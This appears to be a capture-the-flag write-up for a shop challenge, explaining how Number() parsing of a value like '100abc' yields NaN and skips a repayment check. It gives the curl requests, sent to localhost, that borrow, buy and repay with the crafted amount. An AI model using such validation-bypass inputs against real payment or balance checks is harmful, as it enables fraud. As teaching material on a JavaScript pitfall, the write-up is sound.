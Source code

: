 # Problem
The goal of this challenge is to buy the Swampshade Serum.
You do not have any gold, however you can borrow some from the merchant.
You can then buy the serum.
To get the flag, you need to checkout but only after repaying the exact amount of money you borrowed.

docker run -d -p 3000:3000 --name my_container my_image

# Solution
```javascript 
// ParseInt() and Number() have different behaviors 
parseInt("10abc") => 10
Number("10abc") => NaN

// Using this fact, we can byass the following check:
req.session.user.money < Number(amount) || req.session.user.debtAmount < Number(amount)

Number("100abc") => NaN
req.session.user.debtAmount < NaN => false
req.session.user.money < NaN => false

// So we can repay the loan even if we don't have any money
```

## Borrow gold
```bash
curl http://localhost:3000/borrow?amount=100
```

## Buy Swampshade Serum
```bash
curl http://localhost:3000/buy?id=4
```

# Repay the loan
```bash
curl http://localhost:3000/repay?amount=100abc
```

https://github.com/denysdovhan/wtfjs?tab=readme-ov-file#magically-increasing-numbers